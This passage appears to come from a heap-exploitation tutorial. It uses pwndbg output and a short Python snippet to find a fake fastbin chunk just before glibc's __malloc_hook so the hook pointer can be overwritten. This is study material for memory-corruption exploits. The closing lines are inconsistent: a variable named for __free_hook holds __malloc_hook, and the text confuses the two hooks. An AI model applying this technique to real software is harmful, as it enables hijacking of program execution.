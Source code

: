 If we try to dump memory near `__malloc_hook`

```bash
pwndbg> dq &__malloc_hook
00007ffff7bb4b50     0000000000000000 0000000000000000
00007ffff7bb4b60     0000000000000000 0000000000000001
```

We can see that it doesn't fit a valid "sized" chunk condition.

Hence we need to create or find a fake chunk and for that we need to use `find_fake_fast` command in GDB.

```bash
pwndbg> find_fake_fast &__malloc_hook
Searching for fastbin size fields up to 0x80, starting at 0x7ffff7bb4ad8 resulting in an overlap of 0x7ffff7bb4b50
FAKE CHUNKS
Fake chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7bb4b2d
prev_size: 0xfff7bb0ee0000000
size: 0x78 (with flag bits: 0x7f)
fd: 0xfff7883a10000000
bk: 0xfff7883ed000007f
fd_nextsize: 0x7f
bk_nextsize: 0x00

```

If you try to dump quadwords at address `0x7ffff7bb4b2d`

```bash
pwndbg> dq 0x7ffff7bb4b2d
00007ffff7bb4b2d     fff7bb0ee0000000 000000000000007f
00007ffff7bb4b3d     fff7883a10000000 fff7883ed000007f
00007ffff7bb4b4d     000000000000007f 0000000000000000
```

As you can see this looks like a valid chunk with size `0x78`.
Let's calculate how far is this fake chunk from our `__malloc_hook`.

```bash
pwndbg> p/x &__malloc_hook
$4 = 0x7ffff7bb4b50
pwndbg> p/d  0x7ffff7bb4b50 - 0x7ffff7bb4b2d
$5 = 35
```

Hence we need to use -

```python
free_hook_addr = libc.symbols['__malloc_hook']
fake_malloc_addr = free_hook_addr - 35  # Common offset that works
```

Now we need to calculate the offset to `__free_hook` because we need to overwrite the pointer which is `0x0` stored at `__malloc_hook` with our desired address which we will use `0xdeadbeef` just for demonstration.
